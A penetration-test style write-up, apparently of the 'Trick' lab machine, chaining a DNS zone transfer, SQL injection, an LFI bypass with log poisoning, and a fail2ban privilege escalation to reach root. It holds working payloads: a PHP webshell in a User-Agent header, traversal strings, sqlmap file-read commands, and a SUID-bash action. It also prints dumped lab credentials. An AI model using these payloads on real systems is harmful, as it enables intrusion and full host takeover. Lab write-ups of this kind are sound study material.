

## Engagement Overview

The auditor was tasked with assessing **Trick**, a Linux host running DNS, mail, and web services, under a black-box methodology with no prior credentials. The objective was to identify exploitable weaknesses reachable from an unauthenticated network position and determine the maximum level of access achievable.

## Methodology

The engagement followed a standard four-phase approach: reconnaissance, vulnerability identification, exploitation, and privilege escalation. Each finding below is presented with its technical root cause, the steps taken to validate it, and remediation guidance.

## Reconnaissance

```bash frame="code"
$ nmap -sCV 10.10.11.166 -p 22,25,53,80
22/tcp open  ssh     OpenSSH 7.9p1 Debian
25/tcp open  smtp    Postfix smtpd
53/tcp open  domain  ISC BIND 9.11.5
80/tcp open  http    nginx 1.14.2
```

With DNS exposed, the tester attempted a zone transfer against the authoritative server, a request that should require authorization but was not restricted here:

```bash frame="code"
$ dig axfr trick.htb @10.10.11.166
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
```

## Finding 1: Unrestricted DNS Zone Transfer Disclosing Hidden Infrastructure

> [!WARNING]
> **Severity: Medium.** Disclosure of internal/pre-production hostnames not intended for public discovery.

The zone transfer alone disclosed `preprod-payroll.trick.htb`, a staging subdomain hosting a custom login application that was not linked from, or discoverable through, the production site. This single misconfiguration was the entry point for the entire remainder of the engagement.

## Finding 2: SQL Injection in the Payroll Login Endpoint

> [!CAUTION]
> **Severity: Critical.** Unauthenticated database access and, via the database's `FILE` privilege, arbitrary local file read.

The login form on the staging subdomain was found to be SQL-injectable and was fully dumped with `sqlmap`:

```bash frame="code"
$ sqlmap -r req.txt --batch --dump --level 3 -A "NONE"
Database: payroll_db
| Administrator | SuperGucciRainbowCake | Enemigosss |
```

The database account also held the `FILE` privilege, which the tester used to read arbitrary files from the host filesystem, first the application's own database connector, then the web server's virtual host configuration:

```bash frame="code"
$ sqlmap -r req.txt --batch --level 3 -A "NONE" --file-read "/etc/nginx/sites-available/default"
```

This disclosed a second hidden subdomain, `preprod-marketing.trick.htb`, along with its filesystem path and the fact that it ran under a distinct, user-scoped PHP-FPM pool (`php7.3-fpm-michael.sock`), a strong hint that this application ran as a specific local user rather than the default web server account.

## Finding 3: Local File Inclusion Escalated to Remote Code Execution

> [!CAUTION]
> **Severity: Critical.** Unauthenticated remote code execution via log poisoning.

The marketing subdomain passed a `page` GET parameter directly into a PHP `include()` with only a naive `../` string replacement, a filter easily bypassed with overlapping traversal sequences:

```php
include("/var/www/market/".str_replace("../","",$file));
```

The tester confirmed the bypass by traversing to a well-known file outside the intended directory, using the payload `....//....//....//....//etc/passwd` as the `page` value.

Because the tester could also include the web server's own access log, this local file inclusion was escalated to remote code execution via classic log poisoning: injecting a PHP payload into the `User-Agent` header, then including the log file to execute it.

```http
User-Agent: <?php system($_GET[10101010]); ?>
```

Requesting the log file back through the same inclusion point then executed that payload:

```http
GET /index.php?page=....//....//....//....//var/log/nginx/access.log&10101010=id
```



With code execution confirmed, the tester escalated to a full reverse shell and retrieved the user flag:

```bash frame="code"
$ sudo nc -nlvp 443
michael@trick:~$ cat user.txt
```

## Finding 4: Privilege Escalation via a Writable fail2ban Action Directory

> [!CAUTION]
> **Severity: Critical.** Local privilege escalation from a low-privileged user to `root`.

`michael` held a narrow `sudo` allowance to restart the `fail2ban` service:

```bash frame="code"
michael@trick:~$ sudo -l
User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

Group membership also gave `michael` write access to fail2ban's action-definition directory. Fail2ban actions are configured scripts that run as root whenever a ban is triggered, so the tester replaced the iptables ban action with one that sets the SUID bit on `/bin/bash`:

```ini
actionstart = chmod +s /bin/bash
```

That modified action file was placed back into fail2ban's configuration directory and the service was restarted with the allowed `sudo` command, loading the malicious action definition:

```bash frame="code"
michael@trick:/etc/fail2ban/action.d$ cp /tmp/iptables-multiport.conf .
michael@trick:/etc/fail2ban/action.d$ sudo /etc/init.d/fail2ban restart
```

The tester then triggered an SSH ban against their own IP to force the poisoned action to execute as root:

```bash frame="code"
$ hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.11.166 ssh
```

Once the ban fired, the SUID bit had been applied as expected:

```bash frame="code"
michael@trick:/tmp$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
michael@trick:/tmp$ /bin/bash -p -c "cat /root/root.txt"
```

This confirmed full root compromise of the host.

## Impact

This engagement chained four independent weaknesses, none individually catastrophic, into full root access: an unrestricted DNS zone transfer disclosed hidden staging infrastructure, a SQL injection in that infrastructure leaked both credentials and arbitrary file contents, an insufficiently sanitized include path turned that file read into remote code execution, and a permissive service-management allowance turned a low-privileged shell into root. An attacker exploiting this chain would gain unrestricted control of the host and every service it runs, including mail.

## Recommendations

- **Restrict DNS zone transfers (AXFR)** to authorized secondary name servers only.
- **Parameterize all database queries** in the payroll and marketing applications to eliminate SQL injection, and remove the `FILE` privilege from application database accounts.
- **Fix the local file inclusion** by validating the `page` parameter against an allow-list of known filenames rather than attempting to strip traversal sequences.
- **Disable directory listing and log-read access** for any account that does not need it, and treat any user-controlled input reflected into logs (User-Agent, Referer, etc.) as executable content when combined with an include-based LFI.
- **Audit `sudo` grants and group-writable configuration directories** for services that run privileged actions, such as fail2ban; a narrow `sudo` command can still be a full root path if its supporting configuration is writable.

## Conclusion

The auditor successfully demonstrated a full compromise of the Trick host, chaining a DNS misconfiguration, a SQL injection, a local file inclusion turned RCE via log poisoning, and a fail2ban configuration abuse to reach root. All four findings are detailed above with reproduction steps and remediation guidance.
